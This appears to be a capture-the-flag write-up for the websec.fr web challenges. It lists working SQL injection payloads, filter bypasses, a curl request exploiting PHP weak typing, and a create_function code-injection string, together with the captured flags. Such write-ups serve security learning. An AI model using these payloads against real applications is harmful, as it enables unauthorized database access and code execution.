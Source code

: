 # Websec challenges [Link]()

## Level 01
### To trigger error
`;#`
### To get schema
`'0  UNION 1,sql FROM sqlite_master WHERE type='table'; --`

### to  get flag
`0  UNION SELECT 1,password FROM users WHERE username='levelone';`
WEBSEC{Simple_SQLite_Injection}

## Level 17

### Exploit -> php weak type.
`curl -X POST http://websec.fr/level17/index.php -d "flag[]=&submit=Go" -H 'Content-Type:application/x-www-form-urlencoded'`

## Level 04

Use the script in [level04.php](level04.php) to generate a serialized SQL. Here we will set the query to our liking so when the entity is destructed when the code leave the scope we get the flag we are looking for. 

```php
 public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }

        $ret = $this->execute ();
        if (false !== $ret) {
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }

 }
```

> this isn't possible if we hadn't an echo inside the _destruct method.

## Level 25

The parse_url function returns an empty string if we pass a bad url. How bad the url we should be passing you might say ! 
Well something like this:
`http://websec.fr/level25/index.php?page=flag&adfa=asf:9000`

![picture 1](images/360732edea6db9b6de9203daf344b8ac149fbe2975f084b330b3808221ad7853.png)  

## Level 28

`WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}`

## Level 02

=> Payload `0 uniunionon selselectect password from users where id=1`

`WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`

## Level 08

[Payload](level08.php)
`WEBSEC{BypassingImageChecksToRCE}` 

## level 10

Lose equal comparison between a hash and a string. Passing a string that starts with `0e` makes it interpreted as a float.

FLAG: `WEBSEC{Lose_typ1ng_system_are_super_great_aren't_them?}`

## level 11

We have the following SQL query
`SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;`

We have two sources of injection and some kind of sanitization going: 

```php
   $special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
            exit("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }

 if (! is_numeric ($id) or $id < 2) {
        exit("The id must be numeric, and superior to one.");
    }
```

The flag here is at the id=1 and in the column enemy. 
Okay going to the SQL query schema. We find out that we can avoid using the `AS` keyword by directly declaring our target table inside `()` which will get evaluated before the query.

So our final payload will be:

`user_id=10&table=(select+10+id,+enemy+username+from+costume)&submit=Submit`

WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}

## level 13

Here we are exploiting a common programming error. In other languages like c++ we will have an error for trying to accessing an empty part of the memory.

```php
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }
```

After that it's passed to a vulnerable query. That we can exploit to union our table.
```php
  $selector = implode(',', array_unique($tmp));
	
  $query = "SELECT user_id, user_privileges, user_name
  FROM users
  
  WHERE (user_id in (" . $selector . "));";

  $stmt = $db->query($query);
```

So all we need to do is fake the `$tmp` length by passing values that will get deleted and thus the last element won't be reached. 


`0,0,1,0)) UNION SELECT  1,1,user_password from users; --`

WEBSEC{HHVM_was_right_about_not_implementing_eval} 


## level 15

[create_function exploit Reference](https://bugs.php.net/bug.php?id=48231)
`};echo $flag;//`
